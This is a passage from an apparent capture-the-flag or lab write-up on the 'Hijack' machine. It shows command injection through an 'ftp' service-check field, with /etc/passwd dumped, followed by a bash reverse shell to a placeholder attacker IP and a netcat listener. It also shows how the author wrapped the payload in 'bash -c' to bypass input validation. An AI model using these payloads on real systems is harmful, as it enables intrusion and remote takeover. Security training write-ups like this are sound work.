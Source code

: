 I then tested this for arbitrary command execution by appending "ftp" with "`&& cat /etc/passwd`". This returned:
```bash
* ftp.service
   Loaded: not-found (Reason: No such file or directory)
   Active: inactive (dead)
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
ftpuser:x:1002:1002:,,,:/home/ftpuser:/bin/bash
rick:x:1003:1003::/home/rick:
```
*Note: `/etc/passwd` shows that "rick" is a user on the host system.*

I then used Reverse Shell Generator to create a bash script, and appended the "ftp" request with "`&& /bin/bash -i >& /dev/tcp/<ATTACKER IP>/9999 0>&1`". Then I started a netcat listener on my local machine:
```bash
$ nc -lvnp 9999
```

The web application appears to have some input validation in place though, as I received an error the command injection was detected. However, this was easily circumvented by changing my request to "ftp && bash -c '/bin/bash -i >& /dev/tcp/<ATTACKER IP>/9999 0>&1'", and I obtained a shell on my local machine.
```bash
www-data@Hijack:/var/www/html$ whoami
whoami
www-data
```
## Resource Development, Credential Access
### Obtain Capabilities: Tool(T1588.002)